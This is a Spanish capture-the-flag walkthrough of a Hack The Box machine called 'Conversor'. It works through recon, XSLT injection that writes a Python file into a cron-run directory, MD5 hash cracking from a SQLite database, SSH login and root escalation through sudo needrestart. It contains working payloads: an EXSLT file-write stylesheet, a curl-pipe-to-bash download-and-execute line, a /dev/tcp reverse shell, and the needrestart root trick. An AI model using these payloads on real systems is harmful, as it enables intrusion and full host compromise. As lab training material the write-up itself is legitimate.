


# Conversor
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>XSLT Injection / RCE</li>
        <li>Arbitrary File Read (users.db)</li>
        <li>Weak password hashes (MD5) → Credential compromise / SSH access</li>
        <li>Cron-executed scripts (scripts/*.py) → RCE persistence</li>
        <li>Sudo NOPASSWD on <code>/usr/sbin/needrestart</code> → Privilege Escalation</li>
      </ul>
    </td>
  </tr>
</table>
## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.98 -oG allports
```

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p22,80 10.10.11.98 -oN targeted
```

```shell
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 04:57 EDT
Nmap scan report for conversor.htb (10.10.11.92)
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
| http-title: Login
|_Requested resource was /login
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.79 seconds
```

Al parecer es un panel de login he introducido el dominio `conversor.htb` en el fichero `/etc/hosts` para que se pueda resolver de manera adecuada.

Si lanzamos un `whatweb`para ver que tecnologia emplea nos encontramos con lo siguiente:
```shell
http://10.10.11.92 [301 Moved Permanently] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.92], RedirectLocation[http://conversor.htb/], Title[301 Moved Permanently]    
http://conversor.htb/ [302 Found] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.92], RedirectLocation[/login], Title[Redirecting...]                            
http://conversor.htb/login [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.92], PasswordField[password], Title[Login]
```

Efectivamente es un panel de login.


## Examinamos el panel de login 

Nos encontramos ante un panel de login en el que nos podemos registrar, si nos registramos y accedemos nos encontramos con lo siguiente:



Parece un conversor donde el sitio mejora la salidad despues de un escaneo cargando dos archivos: XML y XSLT.

Realizando un descubrimiento de directorios no encuentro nada interesante asi que voy explorando la web me encuentro con un directorio de `Acerca de` donde nos encontramos un enlace para descargar el `source code`.

## Revisando el Source code 
Si nos descargarmos el código y lo descomprimimos vemos que hay varios ficheros y carpetas del funcionamiento de la aplicación.

```shell 
tar -xvf source_code.tar.gz 
app.py
app.wsgi
install.md
instance/
instance/users.db
scripts/
static/
static/images/
static/images/david.png
static/images/fismathack.png
static/images/arturo.png
static/nmap.xslt
static/style.css
templates/
templates/register.html
templates/about.html
templates/index.html
templates/login.html
templates/base.html
templates/result.html
uploads/
```
Hay varios fichero interesantes como install y app.py que examinamos con detenimiento.

- El fichero app.py nos encontramos con que no filtra los fichero que subimos y podemos usarlo como vector de ataque eso se puede ver en esta parte del código

```shell
if 'user_id' not in session:
        return redirect(url_for('login'))
    xml_file = request.files['xml_file']
    xslt_file = request.files['xslt_file']
    from lxml import etree
    xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
    xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename)
    xml_file.save(xml_path)
    xslt_file.save(xslt_path)
```

- Nos encontramos un path a una base de datos con usuarios que seguramente tengamos que intentar extraer desde ahí los ususarios y contraseña para entrar con ssh.

```shell
BASE_DIR = os.path.dirname(os.path.abspath(__file__))
DB_PATH = '/var/www/conversor.htb/instance/users.db'
UPLOAD_FOLDER = os.path.join(BASE_DIR, 'uploads')
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
```

- En en fichero `install.md` nos encontramos con este mensaje interesante donde todos los archivos se ejecutan en un directorio `/script` con un crontab

```shell
You can also run it with Apache using the app.wsgi file.

If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```

## Intrusión 
Con todo ello vamos a intentar inyectar la revershell en un fichero xslt de la siguiente manera:

Un archivo shell.xslt 
```shell
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet 
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
    xmlns:shell="http://exslt.org/common"
    extension-element-prefixes="shell"
    version="1.0"
>
<xsl:template match="/">
<shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.17:8000/shell.sh|bash")
</shell:document>
</xsl:template>
</xsl:stylesheet>
```

- Un archivo shell.sh
```shell
#!/bin/bash                                     
bash -i >& /dev/tcp/10.10.14.81/9001 0>&1
```

De esta manera subimos los dos archivos, previamente ponemos un server con python al puerto 8000 para posteriormente ponernos en escucha con `nc lvnp` en el puerto 9001 para entablar la conexión.

```shell
python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
rlwrap nc -lvnp 9001                                                                                   
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.92] 37318
bash: cannot set terminal process group (20149): Inappropriate ioctl for device
bash: no job control in this shell
www-data@conversor:~$ whoami
whoami
www-data
www-data@conversor:~$ 
```
## Tratamiento de la TTY

Hacemos el prodecimiento de siempre para que la terminal sea más cómoda agregando las siguientes lineas de comandos para resetear la terminal.

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
stty raw -echo; fg
```

## Extraer datos de la base de datos

Nos dirigimos al directorio donde estaba el `users.db` y vemos los ususarios existentes.

```shell
sqlite3 users.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .table.tables
.tables
files  users
sqlite> .schem.schema users
.schema users
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
sqlite> selectselect * from users;
select * from users;
```

```shell 
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|dummy|275876e34cf609db118f3d84b799a790
6|pepe|926e27eecdbc7a18858b3798ba99bddd
7|test|098f6bcd4621d373cade4e832627b4f6
```

Utilizando crackSTation comprobamos si encontramos la contraseña en texto claro de este cifrado de contrasñas en MD5

Como se puede apreciar encontramos la contraseña de todos los ususarios 


## Intrusion en ssh 

Como podemos ver el usuario que más llama la atencion es el primero que precisamente es el único ususario que aparece en el sistema por lo tanto para mayor comodidad vamos a entrar por ssh

```shell 
ssh fismathack@10.10.11.98 | Keepmesafeandwarm
```
Finalmente accedemos por ssh y descubrimos la primera flag.


## Escalada de privilegios 

Para la escalada compruebo primero que permisos tengo y si puedo ejecutar algo con `sudo` de la siguiente manera:

```shell
fismathack@conversor:/home$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

- `/usr/sbin/needrestart` es un script de utilidad en sistemas Linux que se utiliza para determinar si hay servicios o procesos que necesitan ser reiniciados debido a la actualización de librerías o binarios. Su función principal es verificar los procesos que están utilizando archivos que han sido actualizados para informar al usuario si necesitan un reinicio para aplicar los cambios.

Para obtener la flag podemos realizar lo siguiente:
```
sudo /usr/sbin/needrestart -c /root/root.txt
Error parsing /root/root.txt: Bareword "c98e6e8eaf96ef9a69c99901b399dc96" not allowed while "strict subs" in use at (eval 14) line 1.
```
sin embargo no escalamos privilegios para ello podemos hacer lo siguiente

- Invocamos una shell en el directorio temporar y lo ejecutamos 

```shell
echo 'system("/bin/bash");' > /tmp/root.sh
```
```shell
sudo /usr/sbin/needrestart -c /tmp/root.sh
```

Finalmente obtenemos una shell con máximos privilegios.
```shell
root@conversor:/home#
```

